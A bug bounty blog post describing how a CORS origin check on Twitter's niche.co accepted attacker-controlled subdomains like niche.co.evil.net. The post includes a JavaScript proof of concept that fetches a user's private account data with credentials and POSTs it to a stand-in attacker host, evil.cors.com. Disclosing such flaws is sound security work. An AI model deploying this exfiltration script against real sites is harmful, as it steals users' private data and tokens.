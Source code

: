 ```yaml
---
layout: post
title:  "A Simple CORS Misconfig Leaked Private Post Of Twitter, Facebook & Instagram"
date:   2019-01-20
categories: BugBounty
---
```


![CORS-Header]({{site.baseurl}}/assets/bugbounty/twitter-cors/cors_header.png){:class="img-responsive"}

**S**o you might have reached here thinking it’s a big & complex hack but believe me it’s nothing. It’s a very simple misconfiguration of [Cross-Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) on one of Twitter’s product called [niche](https://www.niche.co/).

For Understanding and exploiting CORS, read [this](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties) awesome blog by [@albinowax](https://twitter.com/albinowax).

To give a little background of niche, it’s a platform for creators to increase their social media presence by sharing there work(Pics, videos and other stuff). So whats the important asset here :

**Creators Work** - Their Images & Videos.

Another great feature of niche is that you can sync your posts from different social media platforms like Facebook, Twitter, Instagram etc.

Isn’t that heaven for creators, all of their private work at single place.

If you noticed the word “private” in the above line, than you do think like a hacker. Yes, niche also syncs private posts from all these social platforms(It does ask while connecting your other social platforms during OAuth).

After seeing that, i knew it would be great if we can somehow see other users private posts from social media through niche. So i tried for doing horizontal privesc using IDOR n other stuff but no luck.

After going through request in burp history, i saw in response `“Access-Control-Allow-Origin: https://niche.co & Access-Control-Allow-Credentials: true"`.

So tried exploiting by sending custom Origin header in request and found that the server was only checking whether “//niche.co” was in Origin header.

So if **Origin**: *https://evil.co* , **Access-Control-Allow-Origin**: *https://niche.co*

But if **Origin**: *https://niche.co.evil.net*, **Access-Control-Allow-Origin**: *https://niche.co.evil.net*.


## That’s it!

![BOOM](https://media.giphy.com/media/mks5DcSGjhQ1a/giphy.gif)

![CORS-Misconfig]({{site.baseurl}}/assets/bugbounty/twitter-cors/twitter_cors_burp.png){:class="img-responsive"}
Quickly went to the page where all synced photos from other social media were fetched and that was vulnerable as well, basically whole site was vulnerable. It even had an api endpoint which i found using fuzzing and which wasn’t used in whole site(maybe for dev or legacy) and didn’t even had a documentation but it did displayed all the methods that can be used during hit n trial.

Combining vulnerable api and site, i can steal any information about the other users using CORS(Images, email id, bio, profile info, CSRF tokens etc).

So made a simple POC that looked like this:

```
<html>
<body>
<button type='button' onclick='cors()'>CORS</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.cors.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://www.niche.co/api/v1/users/*******", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
Hosted on domain **niche.co.evil.net**(locally) and when someone visits it and if they are logged in to niche, all of their sensitive info from niche.co will be forwarded to my domain.

That’s it, a simple CORS misconfig with big impact yet Twitter didn’t rewarded since niche domain wasn’t eligible for bounty(can’t argue).

But hey, Twitter HOF for few hours of work…..i’ll take it! When the [hackerone report](https://hackerone.com/reports/426147) was disclosed, many questioned why i did it for free? but at the end i know i learned a lot about CORS, same origin policy, how exactly it works on different browsers. It was a great learning experience and that’s what matters to me.

#### YOUR MONEY CAN BE INFLATED AWAY BUT YOUR KNOWLEDGE CANNOT.

If you found this post useful in anyway, make it useful for others as well by sharing. More coming.

Follow me on [twitter](https://twitter.com/nahoragg) for **InfoSec** related stuff.

Let's connect on [Linkedin](https://www.linkedin.com/in/rohanaggarwal13).
